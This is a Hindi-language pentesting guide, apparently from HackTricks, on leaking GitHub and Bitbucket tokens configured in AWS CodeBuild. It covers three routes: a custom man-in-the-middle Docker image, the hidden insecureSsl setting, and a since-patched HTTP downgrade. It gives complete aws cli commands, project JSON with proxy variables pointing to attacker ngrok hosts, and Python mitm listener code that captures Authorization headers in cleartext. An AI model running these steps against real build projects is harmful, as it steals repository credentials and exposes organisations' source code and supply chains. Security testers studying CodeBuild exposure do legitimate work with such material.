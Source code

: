 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Github/Bitbucket कॉन्फ़िगर किए गए टोकन को पुनर्प्राप्त करें

पहले, जांचें कि क्या कोई स्रोत क्रेडेंशियल्स कॉन्फ़िगर किए गए हैं जिन्हें आप लीक कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

यदि आप पाते हैं कि उदाहरण के लिए Github के लिए प्रमाणीकरण खाते में सेट है, तो आप **exfiltrate** उस **access** (**GH token या OAuth token**) को कोडबिल्ड को **एक विशिष्ट डॉकर इमेज** का उपयोग करके प्रोजेक्ट के निर्माण को चलाने के लिए बना सकते हैं।

इसके लिए आप **एक नया Codebuild प्रोजेक्ट** बना सकते हैं या **Docker image** सेट करने के लिए मौजूदा एक का **environment** बदल सकते हैं।

आप जो Docker image उपयोग कर सकते हैं वह है [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)। यह एक बहुत ही बुनियादी Docker image है जो **env variables `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगा। यह आपको **`https_proxy`** और **`http_proxy`** में निर्दिष्ट होस्ट के अधिकांश ट्रैफ़िक को इंटरसेप्ट करने की अनुमति देगा और **`SSL_CERT_FILE`** में निर्दिष्ट SSL CERT पर भरोसा करेगा।

1. **Create & Upload your own Docker MitM image**
- अपने प्रॉक्सी IP पते को सेट करने और अपने SSL cert को सेट करने के लिए repo के निर्देशों का पालन करें और **docker image बनाएं**।
- **DO NOT SET `http_proxy`** ताकि मेटाडेटा एंडपॉइंट के लिए अनुरोधों को इंटरसेप्ट न किया जा सके।
- आप **`ngrok`** का उपयोग कर सकते हैं जैसे `ngrok tcp 4444` अपने होस्ट के लिए प्रॉक्सी सेट करने के लिए
- एक बार जब आपके पास Docker image बन जाए, तो **इसे एक सार्वजनिक repo** (Dockerhub, ECR...) पर **upload** करें।
2. **Set the environment**
- **एक नया Codebuild प्रोजेक्ट** बनाएं या मौजूदा एक के environment को **संशोधित** करें।
- प्रोजेक्ट को **पूर्व में उत्पन्न Docker image** का उपयोग करने के लिए सेट करें।

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

- जैसा कि **Github repo** में संकेतित किया गया है, आप कुछ ऐसा उपयोग कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
> [!TIP]
> **mitmproxy संस्करण 9.0.1** का उपयोग किया गया था, रिपोर्ट किया गया था कि संस्करण 10 के साथ यह काम नहीं कर सकता।

4. **बिल्ड चलाएँ और क्रेडेंशियल्स कैप्चर करें**

- आप **Authorization** हेडर में टोकन देख सकते हैं:

<figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

यह aws cli से कुछ इस तरह किया जा सकता है
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### Via insecureSSL

**Codebuild** प्रोजेक्ट्स में एक सेटिंग होती है जिसे **`insecureSsl`** कहा जाता है जो वेब में छिपी होती है, आप इसे केवल API से बदल सकते हैं।\
इसे सक्षम करने से, Codebuild को प्लेटफ़ॉर्म द्वारा प्रदान किए गए प्रमाणपत्र की **जांच किए बिना** रिपॉजिटरी से कनेक्ट करने की अनुमति मिलती है।

- सबसे पहले, आपको वर्तमान कॉन्फ़िगरेशन को कुछ इस तरह से सूचीबद्ध करने की आवश्यकता है:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
- फिर, एकत्रित जानकारी के साथ आप प्रोजेक्ट सेटिंग **`insecureSsl`** को **`True`** में अपडेट कर सकते हैं। निम्नलिखित मेरे प्रोजेक्ट को अपडेट करने का एक उदाहरण है, अंत में **`insecureSsl=True`** पर ध्यान दें (यह एकमात्र चीज है जिसे आपको एकत्रित कॉन्फ़िगरेशन से बदलने की आवश्यकता है)।
- इसके अलावा, env वेरिएबल **http_proxy** और **https_proxy** को भी जोड़ें जो आपके tcp ngrok की ओर इशारा करते हैं जैसे:
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
- फिर, प्रॉक्सी वेरिएबल्स (http_proxy और https_proxy) द्वारा इंगित पोर्ट में [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बुनियादी उदाहरण चलाएँ।
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- अंत में, **Build the project** पर क्लिक करें, **credentials** **स्पष्ट पाठ** (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~HTTP प्रोटोकॉल के माध्यम से~~

> [!TIP] > **यह कमजोरियों को AWS ने 2023 के 20 फरवरी के सप्ताह में किसी समय (मुझे लगता है कि शुक्रवार को) ठीक किया। इसलिए एक हमलावर इसका दुरुपयोग नहीं कर सकता :)**

एक हमलावर के पास **CodeBuild में उच्च अनुमतियाँ होने पर Github/Bitbucket टोकन** लीक हो सकता है जो कॉन्फ़िगर किया गया है या यदि अनुमतियाँ OAuth के माध्यम से कॉन्फ़िगर की गई हैं, तो **कोड तक पहुँचने के लिए उपयोग किया जाने वाला अस्थायी OAuth टोकन**।

- एक हमलावर **http_proxy** और **https_proxy** पर्यावरण चर को CodeBuild प्रोजेक्ट में जोड़ सकता है जो उसकी मशीन की ओर इशारा करता है (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`)।

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- फिर, github repo का URL HTTP का उपयोग करने के लिए बदलें बजाय HTTPS के, उदाहरण के लिए: `http://github.com/carlospolop-forks/TestActions`
- फिर, प्रॉक्सी चर (http_proxy और https_proxy) द्वारा इंगित पोर्ट में [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बुनियादी उदाहरण चलाएँ।
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="0.0.0.0",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- अगला, **प्रोजेक्ट बनाएं** पर क्लिक करें या कमांड लाइन से निर्माण शुरू करें:
```sh
aws codebuild start-build --project-name <proj-name>
```
- अंत में, **प्रमाण पत्र** **स्पष्ट पाठ** (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> अब एक हमलावर अपने मशीन से टोकन का उपयोग कर सकेगा, सभी विशेषाधिकारों की सूची बना सकेगा और (दुरुपयोग) कोडबिल्ड सेवा का सीधे उपयोग करने की तुलना में अधिक आसानी से कर सकेगा।

{{#include ../../../../banners/hacktricks-training.md}}
